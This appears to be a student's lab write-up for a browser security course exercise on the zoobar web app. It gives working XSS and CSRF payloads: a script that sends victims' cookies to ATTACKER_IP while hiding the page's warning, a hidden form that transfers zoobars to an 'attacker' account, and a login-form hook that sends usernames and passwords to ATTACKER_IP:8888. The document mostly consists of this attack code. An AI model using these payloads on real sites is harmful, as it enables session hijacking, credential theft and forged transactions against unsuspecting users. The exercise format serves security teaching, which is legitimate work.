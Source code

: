 ##Browser security

###Exercise 1: Cookie Theft

The payload for the exercise consists from several parts:

    <script>
    document.addEventListener("DOMContentLoaded", theDomHasLoaded, false); //Wait that DOM has loaded in the page so we modify the warning text message class
    function theDomHasLoaded(e) { 
    document.getElementsByClassName("warning")[0].style.visibility = 'hidden'; // this hides the red warning message from the page
    } 
    new Image().src = 'http://ATTACKER_IP/?cookie=' + encodeURIComponent(document.cookie); //this is the payload to steal the victims cookie
    </script>

The payload also requires that we include ""> in the beginning of the payload and </ at the end so that the exploit works properly and hides any extraneous text from the page that would tip the victim about on ongoing attack.

    ""><script>document.addEventListener("DOMContentLoaded", theDomHasLoaded, false);function theDomHasLoaded(e) { document.getElementsByClassName("warning")[0].style.visibility = 'hidden';} new Image().src = 'http://ATTACKER_IP/?cookie=' + encodeURIComponent(document.cookie);</script></
    
Finally, the payload needs to be URL encoded. The attack URL can be found from the following file: [answer-1.txt] (https://github.com/ukk1/ITKST53/blob/master/Lab5/answer-1.txt)

###Exercise 2: Cross-Site Request Forgery

Below is provided the HTML and JavaScript code for the CSRF attack that will transfer 10 zoobars from the victim to the user 'attacker' and redirect the victim to other site.

    <html>
    <body>
        <form name="csrf" action="http://localhost:8080/zoobar/index.cgi/transfer" method="POST" target="iframe">
            <input type="hidden" name="zoobars" value="10" />
            <input type="hidden" name="recipient" value="attacker" />
        </form>
        <iframe style="display:none" id="iframe" name="iframe" frameborder="0"></iframe>
        <script> 
            document.getElementById("iframe").onload = function() {
                window.location.href = "http://css.csail.mit.edu/6.858/2014/";
            }
            document.forms[0].submit();
        </script>
    </body>
    </html>

###Exercise 3: Side Channels and Phishing

In this exercise we can retrieve the information from the zoobarjs file to see if the user is logged in or not. If user is logged in the file will include information about how many zoobars the user has. We can use this information in conjunction with JavaScript to check if the user, who visits the attackers site is logged in, since we can check if the file returns the amount of zoobars.

    <script src="http://localhost:8080/zoobar/index.cgi/zoobarjs"></script>
    <script> 
    //if user is logged in transfer users zoobar to the attackers account
        var zoobars = myZoobars;
        if (zoobars || true); {
        location.href = "answer-2.html"; //launch the CSRF attack if user is logged in
        }
    </script>

The answer-2.html file must be located in the same folder as the answer-3.html file so that the CSRF attack works as expected.

For intercepting the users credentials following modifications were done to the form HTML code, also some new JavaScript was added:

    <form name="loginform" method="POST" action="http://localhost:8080/zoobar/index.cgi/login" onsubmit="intercept()">
    
    <script>
        function intercept() {
		var username = document.forms[0].elements[0].value;
		var password = document.forms[0].elements[1].value;
		new Image().src = "http://ATTACKER_IP:8888/?username="+username+"&password="+password;
	}
	</script>
	
When the user enters his or her credentials, they will be sent to the attacker and user will be logged in normally.

###Exercise 4: Profile Worm

We completed this exercise with the XMLHttpRequest approach. Full working version can be found by following this link [answer-4.txt] (https://github.com/ukk1/ITKST53/blob/master/Lab5/answer-4.txt)
